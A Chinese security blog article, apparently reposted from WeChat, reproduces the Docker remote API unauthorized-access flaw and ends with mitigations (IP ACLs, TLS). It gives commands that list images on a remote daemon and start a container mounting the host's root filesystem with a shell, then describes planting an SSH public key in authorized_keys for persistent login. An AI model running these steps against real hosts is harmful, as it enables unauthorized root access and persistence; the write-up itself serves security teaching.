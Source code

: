 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DqOcU6iz0BABvoa6AKYHfQ)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7h4PibFD8ULJmUSg2Opp9zbf9TiccicszSnSlBKRK35x0ibK1DAUfC9Qb2fA/640?wx_fmt=jpeg)

**前言:**

Docker 是一个开源的应用容器引擎，基于 Go 语言 并遵从 Apache2.0 协议开源。

Docker 可以让开发者打包他们的应用以及依赖包到一个轻量级、可移植的容器中，然后发布到任何流行的 Linux 机器上，也可以实现虚拟化。

容器是完全使用沙箱机制，相互之间不会有任何接口（类似 iPhone 的 app）, 更重要的是容器性能开销极低。

**漏洞描述:**

通过 docker 未收取访问漏洞，在利用 docker remote api 可以执行 docker 命令，从官方文档可以看出，该接口是目的是取代 docker 命令界面，通过 url 操作 docker。

**漏洞复现：**

访问 version

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7hDJ4aU0HJAMQibibFz7jOar39Q9dhslhgQib1tzbsmCnKBicEicTzLCUf4UQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7hMqou5T9MANcziaSRbDiaZnPIPfB9qBhCOLcLwXmcPeaqMJt7HOIicIlNg/640?wx_fmt=png)

docker  -H 远程列出容器。

docker  -H tcp://ip:port images

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7hRrcGXoMeaGOISerFvwfgogvPYhosjiaZRJQUnFNvbzQh7oylqQx0Yxw/640?wx_fmt=png)

获取 IMAGE ID 进入容器，并挂载攻击主机的目录（任意目录）。

```
docker -H tcp://ip:port  run -it -v /:/mnt c203892a8124  /bin/bash
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7hhNYqYSsMt8pww8bczdRKe3ZxwDyISvegSqJNs771l0NKNc9VsTiaDGw/640?wx_fmt=png)

免密 ssh 登陆。使用 ssh-keygen 默认即可。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7hDhYibuUHXAPGb78pVnPCH384rFxXeZdqOTUicibWzVUsBZlaNA2mHaxwA/640?wx_fmt=png)

生成两个文件，/root/.ssh/id_rsa.pub 公钥存储文件，/root/.ssh/id_rsa 私钥存储文件，将公钥文件写入到攻击机的 authorized_keys 文件下。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7h6gs9My1xnzdmTy1tTtm8QiakqQJtAWH7scYqXeEqUvhTCuj3wffVDEQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7hia8DMuVLpffcSxdMtPjUDzicIcVicibIOtK29cIve02FkNeIQLtaolqzcQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7hNaoOLDk55f8U3PZWjMGSicYfU65TYUQPCQIfhEhKjuCS92UhZkOviaEg/640?wx_fmt=png)

登陆 ssh。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa27uzOYNSqqckxtdhPJCKb7h3XibiaibYsYTaHvXia1IOsj0GQzOaAhuC5HLK83untkQsDm4xN4Ivs8eKw/640?wx_fmt=png)

**影响版本：**

所有版本。

****修复建议:****

1、设置 ACL，只允许信任 ip 连接对应端口；

2、开启 TLS，使用生成的证书进行认证。

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa260lZABWwEo49lodRtpGIOoYYt5Ojm4Y1sdMD4ez7rL55g1IW3icCTOia91YicOrh1sjuOB5TiaUibCiaiaA/640?wx_fmt=jpeg)

一起学习，请关注我![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24an9TvS6grA3sWoTRYSQr4hZQYrCwcz8gD1evatvHgAquT3YhfNMxgqib63eQ1mRnQVjQA6W9icxFg/640?wx_fmt=png)

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。